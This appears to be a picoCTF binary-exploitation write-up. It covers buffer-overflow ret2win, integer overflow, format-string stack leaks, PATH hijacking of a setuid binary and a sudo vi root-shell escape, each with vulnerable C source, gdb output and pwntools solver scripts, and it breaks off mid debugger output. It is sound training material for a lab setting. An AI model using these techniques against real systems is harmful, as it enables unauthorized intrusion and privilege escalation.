

### buffer overflow 0

Download the file and just fuzz it. I randomly inserted 30 bytes and got the flag.

```bash
➜  Binary-Exploitation git:(main) ✗ nc saturn.picoctf.net 61481
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{XXX}
```

### CVE-XXXX-XXXX

Just Google `first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service`.



### two-sum

Download the file and `cat` its content.

```c
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
}
```

To print the flag we need to add two positive integers and have a negative result. We will add the `MAX_INT` value in `C` and `1` to achieve an integer overflow and get the flag.

```python
from pwn import *

context.log_level = 'critical'

r = remote('saturn.picoctf.net', 54011)

r.sendline(b'2147483647')
r.sendline(b'1')
print(f'\n{r.recvline_contains(b"pico").strip().decode()}\n')
```

```bash
➜  Binary-Exploitation git:(main) ✗ python solver.py

YOUR FLAG IS: picoCTF{XXX}
```

### buffer overflow 1

Download the files and `cat vuln.c` 

```c
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We see there is a function that prints the flag (`win()`) and a `gets()`.

So, we have a typical `ret2win` challenge. We just need to find the offset to overwrite the return address and the address of `win()`.

We create a pattern in `gdb` and see that it crashed here:

```gdb
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

```gdb
0xffffd040│+0x0000: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"	 ← $esp
0xffffd044│+0x0004: "naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaza[...]"
0xffffd048│+0x0008: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
0xffffd04c│+0x000c: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabca[...]"
0xffffd050│+0x0010: "qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabda[...]"
0xffffd054│+0x0014: "raaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabea[...]"
0xffffd058│+0x0018: "saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa[...]"
0xffffd05c│+0x001c: "taaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga[...]"
───────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
───────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset  maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaa
[+] Searching for 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaa'
[+] Found at offset 48 (big-endian search) 
```

We need to subtract 4 bytes to reach this value. The address of `win()` can be found with `pwntools`.

```python
from pwn import *

context.log_level = 'critical'

r = remote('saturn.picoctf.net', 58135)

e = ELF('./vuln')

r.sendline(b'A'*44 + p32(e.sym.win))

r.recvuntil(b'pico')

print(f'\nFlag --> pico{r.recv().decode()}\n')
```

```bash
➜  Binary-Exploitation git:(main) ✗ python solver.py

Flag --> picoCTF{XXX}
```

### RPS

Download the file and `cat` its content.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;


int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any activity */
    ready_for_reading = select(1, &input_set, NULL, NULL, &timeout);
    /* Here, first parameter is number of FDs in the set, 
     * second is our FD set for reading,
     * third is the FD set in which any write activity needs to updated,
     * which is not required in this case. 
     * Fourth is timeout
     */

    if (ready_for_reading == -1) {
        /* Some error has occured in input */
        printf("Unable to read your input\n");
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user input. Press Ctrl-C to disconnect\n");
        return -3;
    }

    return 0;
}


bool play () {
  char player_turn[100];
  srand(time(0));
  int r;

  printf("Please make your selection (rock/paper/scissors):\n");
  r = tgetinput(player_turn, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }

  int computer_turn = rand() % 3;
  printf("You played: %s\n", player_turn);
  printf("The computer played: %s\n", hands[computer_turn]);

  if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
  } else {
    puts("Seems like you didn't win this time. Play again?");
    return false;
  }
}


int main () {
  char input[3] = {'\0'};
  int command;
  int r;

  puts("Welcome challenger to the game of Rock, Paper, Scissors");
  puts("For anyone that beats me 5 times in a row, I will offer up a flag I found");
  puts("Are you ready?");
  
  while (true) {
    puts("Type '1' to play a game");
    puts("Type '2' to exit the program");
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
      
    } else if (command == 1) {
      printf("\n\n");
      if (play()) {
        wins++;
      } else {
        wins = 0;
      }

      if (wins >= 5) {
        puts("Congrats, here's the flag!");
        puts(flag);
      }
    } else if (command == 2) {
      return 0;
    } else {
      puts("Please type either 1 or 2");
    }
  }

  return 0;
}
```

Focus on the important stuff.

We need 5 wins to get the flag.

```c
  if (wins >= 5) {
    puts("Congrats, here's the flag!");
    puts(flag);
  }
```

The program checks our answer with `strstr`.

```c
  if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
```

From the `man` page of `strstr`:

```bash
STRSTR(3)                        Linux Programmer's Manual                        STRSTR(3)

NAME
       strstr, strcasestr - locate a substring

SYNOPSIS
       #include <string.h>

       char *strstr(const char *haystack, const char *needle);

       #define _GNU_SOURCE         /* See feature_test_macros(7) */

       #include <string.h>

       char *strcasestr(const char *haystack, const char *needle);

DESCRIPTION
       The  strstr()  function  finds  the  first occurrence of the substring needle in the
       string haystack.  The terminating null bytes ('\0') are not compared.
```

So, if we give all the possible answers as input, it will always come true and win.

```python
from pwn import *

r = remote('saturn.picoctf.net', 53864)

for i in range(5):
	r.sendline(b'1')
	r.sendline(b'rockpaperscissors')

r.recvuntil(b'pico')

print(f'\nFlag --> pico{r.recvuntil(b"}").decode()}\n')
```

```bash
➜  Binary-Exploitation git:(main) ✗ python solver.py
[+] Opening connection to saturn.picoctf.net on port 53864: Done

Flag --> picoCTF{50M3_3X7R3M3_1UCK_B69E01B8}

[*] Closed connection to saturn.picoctf.net port 53864
```

### clutter-overflow

Download the files and `cat chall.c`.

```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```

Pretty straight-forward challenge. We have a `gets()` to trigger a Buffer Overflow and all we have to do is change `code` value from `0` to `0xdeadbeef`.  Let's open a debugger to find the offset where we overwrite the `code` which is placed on the stack.

```gdb
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
```

In the beginning of `main`, we saw that the `code` value is placed on `$rbp-0x8`. We will find the offset till `$rbp` and then subtract `8`.

```gdb
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 272 (little-endian search) likely
```

Great! The offset is `272-8`. The only thing left now, is to overwrite the value with `0xdeadbeef`.

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.log_level = 'critical'

r = remote('mars.picoctf.net', 31890)

r.sendline(b'A'*264 + p64(0xdeadbeef))
print(f'\nFlag --> {r.recvline_contains(b"pico").strip().decode()}\n')
```

```bash
➜  clutter-overflow git:(main) ✗ python solver.py

Flag --> picoCTF{XXX}
```

### VNE

Connect to the remote instance via `ssh ctf-player@saturn.picoctf.net -p 63339` and run `./bin`

```bash
ctf-player@pico-chall$ ./bin 
Error: SECRET_DIR environment variable is not set
```

We need to set the `SECRET_DIR` env variable to something. Let's try `cat /root/flag.txt`.

```bash
ctf-player@pico-chall$ export SECRET_DIR="cat /root/flag.txt" && ./bin 
Listing the content of cat /root/flag.txt as root: 
ls: cannot access 'cat': No such file or directory
/root/flag.txt
Error: system() call returned non-zero value: 512
```

As we can notice, the binary runs `ls(SECRET_DIR)`. It prints the file location but it produces the error `ls: cannot access 'cat': No such file or directory`.

Now, we need to bypass `ls` to print the flag. 

The program runs as `root`. We can trick it to think that it runs the actual `ls`, but instead it runs a `symbolic link` we create.

```bash
ctf-player@pico-chall$ ln -s `which cat` ls
ctf-player@pico-chall$ ls
bin  ls
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    30 Apr  3 01:31 .
drwxr-xr-x 1 root       root          24 Mar 16 01:59 ..
drwx------ 2 ctf-player ctf-player    34 Apr  3 01:30 .cache
-rw-r--r-- 1 root       root          67 Mar 16 01:59 .profile
-rwsr-xr-x 1 root       root       18752 Mar 16 01:59 bin
lrwxrwxrwx 1 ctf-player ctf-player    12 Apr  3 01:31 ls -> /usr/bin/cat
```

Then, export the `PATH` to our current directory.

```bash
ctf-player@pico-chall$ export PATH=`pwd`
ctf-player@pico-chall$ echo $PATH
/home/ctf-player
```

The create the `SECRET_DIR` var with `/root/flag.txt`.

```bash
export SECRET_DIR="/root/flag.txt"
```

```bash
ln -s `which cat` ls && \
export PATH=`pwd` && \
export SECRET_DIR="/root/flag.txt" && \
./bin | /usr/bin/grep pico && \
/usr/bin/rm ls
```

```bash
ctf-player@pico-chall$ ln -s `which cat` ls && \
> export PATH=`pwd` && \
> export SECRET_DIR="/root/flag.txt" && \
> ./bin | /usr/bin/grep pico && \
> /usr/bin/rm ls
picoCTF{XXX}
```

### hijacking

Connect to the remote server via `ssh picoctf@saturn.picoctf.net -p 53359`.

We run `sudo -l` to check what we can run as `root`.

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We see that we can use `vi`.

We will abuse this to spawn shell as root.

```bash
picoctf@challenge:~$ sudo vi -c ':!/bin/sh' 
[sudo] password for picoctf:
```

The password is given: `g9JyzMCWpU`.

To have a more interactive shell we run `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

```bash
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@challenge:/home/picoctf# 
```

The flag is located in `/challenge` inside the `metadata.json` file.

```bash
root@challenge:/# ls challenge/
metadata.json
root@challenge:/# cat challenge/metadata.json 
{"flag": "picoCTF{XXX}", "username": "picoctf", "password": "g9JyzMCWpU"}root@challenge:/# Connection to saturn.picoctf.net closed by remote host.
```

### buffer overflow 2

Download the files and `cat vuln.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

No need to open a decompiler. We see a buffer overflow with `gets` and a `win` function that needs some arguments.

Overflow the buffer, place the correct arguments and the address of `win`. This is a `32-bit` binary so the arguments are placed on the stack and not on registers.

```bash
➜  buffer overflow 2 git:(main) ✗ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
```

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')

r = remote('saturn.picoctf.net', 53721)
e = ELF('./vuln')

ret = 0x08049009

payload = flat({
  0x70: p32(e.sym.win) + p32(ret) + p32(0xCAFEF00D) + p32(0xF00DF00D)
 })

r.sendline(payload)
r.interactive()
```

```bash
➜  buffer overflow 2 git:(main) ✗ python solver.py
[+] Opening connection to saturn.picoctf.net on port 53721: Done
[*] '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/buffer overflow 2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxa\xf0\xfe\xcaabcaab\x96\x92\x04    \x90\x04
picoCTF{XXX}
```

### flag leak

Download the files and `cat vuln.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

We see that there is a `format string vulnerability` and the flag is written on the stack. Knowing that, we need to find where it's located and just print it.

Create a fake flag.txt for testing.

We set a breakpoint right after it's called and send a couple of `%s`.

```bash
gef➤  c
Continuing.
Tell me a story and then I'll tell you one >> %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Here's a story - 
0xffffcf40.0xf7c12374.0x8049346.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x252e70.0x6f636970.0x6b34667b.0x6c665f33.0x345f6734.0x3533745f.0x676e3174.0xff000a7d.
```

The flag starts with `p` whose hex value is `0x70` and `i` is `0x69`. We need to find these 2 together to see the start of the flag.

```gdb
gef➤  printf "0x%x\n", 'p'
0x70
gef➤  printf "0x%x\n", 'i'
0x69
```

They are together at the `36` index. We make a brute force script to leak the whole flag.

```python
#!/usr/bin/python3.8
from tqdm import tqdm
from pwn import *
import warnings
import binascii
warnings.filterwarnings('ignore')
context.log_level = 'critical'

i = 36
flag = ''

for i in tqdm(range(i, 100)):
  r = remote('saturn.picoctf.net', 52815)
  r.sendlineafter('>> ', f'%{i}$p')
  r.recvline()
  flag += bytes.fromhex(r.recvline()[2:].strip().decode()).decode()[::-1]
  if '}' in flag:
    print(f'\nFlag --> {flag}\n')
    r.close()
    exit()
  i += 1
  r.close()
```

```bash
➜  flag leak git:(main) ✗ python solver.py
 14%|████████▏                                                 | 9/64 [00:03<00:22,  2.46it/s]
Flag --> picoCTF{XXX}
```

### wine

Download the files and `cat vuln.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

It's a simple `ret2win` program in `windows`. We need to find the address of `win()` and the overflow offset.

```gdb
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x004015a9 <+0>:	push   ebp
   0x004015aa <+1>:	mov    ebp,esp
   0x004015ac <+3>:	sub    esp,0x98
   0x004015b2 <+9>:	mov    DWORD PTR [esp],0x404035
   0x004015b9 <+16>:	call   0x402684 <puts>
   0x004015be <+21>:	lea    eax,[ebp-0x88]
   0x004015c4 <+27>:	mov    DWORD PTR [esp],eax
   0x004015c7 <+30>:	call   0x40269c <gets>
   0x004015cc <+35>:	nop
   0x004015cd <+36>:	leave  
   0x004015ce <+37>:	ret    
End of assembler dump.
gef➤  p win
$1 = {<text variable, no debug info>} 0x401530 <win>
```

The offset seems to be at `0x98` bytes and the address of `win` is `0x401530`.

```bash
➜  flag leak git:(main) ✗ python solver.py
b'Unhandled exception: page fault on read access to 0x41414141 in 32-bit code (0x41414141)
```

The offset might be wrong so we alter it a bit.

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.log_level = 'critical'

r = remote('saturn.picoctf.net', 62293)

r.sendline(b'A'*(0x98-12) + p32(0x401530))
r.recvline()
print(f'\nFlag --> {r.recvline().strip().decode()}\n')
```

### Local Target

Download the program and `cat` its content.

```c
#include <stdio.h>
#include <stdlib.h>


int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

There are 2 important things in this code.

* `gets(input);` We have a buffer overflow, meaning we can redirect the flow of the program by overwriting the return address.
* There is a piece of code that reads the `flag.txt`.

As we can see, `PIE` is `disabled`, meaning we know the addresses of the binary, thus the address of the code that reads the flag. `Canary` is also `disabled`, meaning there is no problem overwriting the return address. Our goal is:

* Overwrite the return address (The offset is 40 bytes)
* Call `pop rbp; ret;` gadget to set `rbp` to a writable segment in our binary since `PIE` is off.
* Call the part of code that reads `flag.txt` which is at `main + 125`.

#### Finding overflow offset and pop rbp gadget

Inside `gdb` we create a cyclic sequence and crash the program.

```asm
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> r
Starting program: /home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Local Target/local-target 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter a string: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

num is 1633771876
Bye!

Program received signal SIGSEGV, Segmentation fault.
0x00000000004013a1 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────
 RAX  0x0
 RBX  0x0
*RCX  0xc00
*RDX  0x4052a0 ◂— 'Bye!\ns 1633771876\n'
*RDI  0x7ffff7e1ba70 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x0
*R8   0x7ffff7e1ba70 (_IO_stdfile_1_lock) ◂— 0x0
*R9   0x7fffffffdcde ◂— '1633771876'
*R10  0x7ffff7c0d0c8 ◂— 0xf0022000065de
*R11  0x246
*R12  0x7fffffffdf48 —▸ 0x7fffffffe293 ◂— '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Local Target/local-target'
*R13  0x401236 (main) ◂— endbr64 
 R14  0x0
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffde38 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x4013a1 (main+363) ◂— ret 
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────
 ► 0x4013a1 <main+363>    ret    <0x6161616161616166>


────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde38 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
01:0008│     0x7fffffffde40 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
02:0010│     0x7fffffffde48 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
03:0018│     0x7fffffffde50 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
